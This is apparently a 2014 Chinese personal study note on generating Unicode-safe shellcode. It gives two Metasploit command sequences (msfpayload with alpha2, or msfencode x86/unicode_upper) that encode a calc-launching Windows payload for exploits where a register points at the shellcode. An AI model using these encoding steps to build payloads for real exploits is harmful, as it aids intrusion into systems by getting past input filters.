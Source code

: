 title: "生成unicode shellcode"
date: 2014-01-14 14:02:33
tags:
id: 483
comment: false
categories:
  - 学习笔记
---

方法一：

msfpayload windows/exec CMD=calc R &gt; ./test.raw

alpha2 eax --unicode --uppercase &lt; ./test.raw  #其中eax是指向shellcode的第一字符的寄存器

方法二：

msfpayload windows/exec CMD=calc R | msfencode -e x86/unicode_upper BufferRegister=EAX -t python #其中eax是指向shellcode的第一字符的寄存器

&nbsp;
